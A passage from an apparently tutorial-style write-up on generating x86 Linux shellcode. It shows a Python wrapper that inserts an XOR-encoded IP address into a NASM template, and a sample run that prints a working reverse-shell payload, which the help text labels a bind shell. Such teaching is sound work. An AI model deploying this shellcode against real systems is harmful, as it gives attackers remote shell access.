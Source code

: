 ```py
        
        replace_code = f"mov ebx, 0x{ip_address_xored_bytes}\n    xor ebx, 0x{xor_dword}\n    push ebx\n    xor ebx, ebx"
```

{% sidenote The function also checks for `NULL` bytes inside the IP address, `XOR`-ing the values with a random byte in case there are %}

```py
    else:
        ip_address_hex = "".join([(x).to_bytes(1, "little").hex() for x in ip_address_bytes])
        replace_code = f"push 0x{ip_address_hex}"
    
    template_code = template_code.replace("{{ TEMPLATE_TCP_IP }}", replace_code, 1)
    
    with open(output_file_path, 'w') as f:
        f.write(template_code)
```

When you run the script it shows you the required arguments:

```bash
python3 script.py -h

# usage: wrapper.py [-h] -p [1-65535] -ip IP -t TEMPLATE -o OUTPUT

# optional arguments:
#   -h, --help            show this help message and exit
#   -p [1-65535], --port [1-65535]
#                         TCP Port of the Bind Shell
#   -ip IP, --ip IP       IP address of the Bind Shell
#   -t TEMPLATE, --template TEMPLATE
#                         Path of the NASM template file. Example: -t /tmp/template.nasm
#   -o OUTPUT, --output OUTPUT
#                         Path of the output file. Example: -o /tmp/output.nasm
```

If you pass the required arguments, it finally prints the shellcode which you can copy into a shellcode runner. Follows an example:

```bash
python3 wrapper.py -p 1234 -ip "127.0.0.1" -t ./template.nasm -o /tmp/output.nasm

# [!] Found NULL byte in IP address
# [+] Object file generated at /tmp/output.nasm
# [+] Executable binary generated at /tmp/output
# [+] Shellcode length: 99 bytes
# [+] Shellcode:
# "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb1\x06\x51\xfe\xc3\x53\xb1\x02\x51\x89\xe1\xcd\x80\x89\xc6\xbb\xa0\xdf\xdf\xde\x81\xf3\xdf\xdf\xdf\xdf\x53\x31\xdb\x66\x68\x04\xd2\xb3\x02\x66\x53\x89\xe1\x31\xdb\xb3\x10\x53\x51\x56\x31\xc0\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x89\xd9\x51\xb0\x3f\x89\xf3\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";
```
